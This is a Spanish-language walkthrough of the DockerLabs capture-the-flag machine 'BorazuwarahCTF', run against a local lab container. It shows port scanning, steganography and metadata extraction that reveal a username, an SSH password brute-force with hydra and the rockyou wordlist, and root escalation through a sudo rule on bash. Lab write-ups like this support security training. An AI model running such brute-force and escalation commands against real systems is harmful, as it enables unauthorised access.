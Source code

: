 # 🖥️ Writeup - BorazuwarahCTF 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip borazuwarahctf.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh borazuwarahctf.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 19:26 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y nos encontramos con una imagen de un Kinder Sorpresa.

Realizamos `fuzzing` de directorios para identificar directorios o archivos ocultos, pero no encontramos nada.

En este punto, asumimos que la imagen debe proporcionarnos la información que necesitamos.

Descargamos la imagen y comprobamos si contiene algún mensaje oculto.

```bash
steghide extract -sf Untitled.jpeg
```

Info:
```
Enter passphrase: 
wrote extracted data to "secreto.txt".
```

Nos solicita una passphrase, pero la dejamos en blanco. 
Aun así, conseguimos extraer información oculta de la imagen, que se guarda en un archivo `secreto.txt`.

```
Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```

Lo leemos y la pista nos indica que debemos buscar más información dentro de la propia imagen.

Se me ocurre revisar los `metadatos` de la imagen. 

```bash 
exiftool Untitled.jpeg
```

Info:
```
ExifTool Version Number         : 13.25
File Name                       : Untitled.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2025:09:11 19:30:52+02:00
File Access Date/Time           : 2025:09:11 19:31:12+02:00
File Inode Change Date/Time     : 2025:09:11 19:30:52+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Encontramos un usuario válido en los metadatos: `borazuwarah`.

# FUERZA BRUTA

Intentamos un ataque de `fuerza bruta` por `SSH` con este usuario.

```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 19:37:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

Obtenemos credenciales para `borazuwarah` : `123456`.

Accedemos por SSH.

```bash
ssh borazuwarah@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for borazuwarah on bd1074449ef9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User borazuwarah may run the following commands on bd1074449ef9:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Comprobamos que el usuario `borazuwarah` puede ejecutar el binario `bash` con privilegios de cualquier usuario del sistema, incluido `root`. Por lo tanto, para escalar a `root` solo tendríamos que hacer lo siguiente.

```bash 
sudo -u root /bin/bash
```

Info:
```
root@bd1074449ef9:/home/borazuwarah# whoami
root
root@bd1074449ef9:/home/borazuwarah#
```

Ya somos root!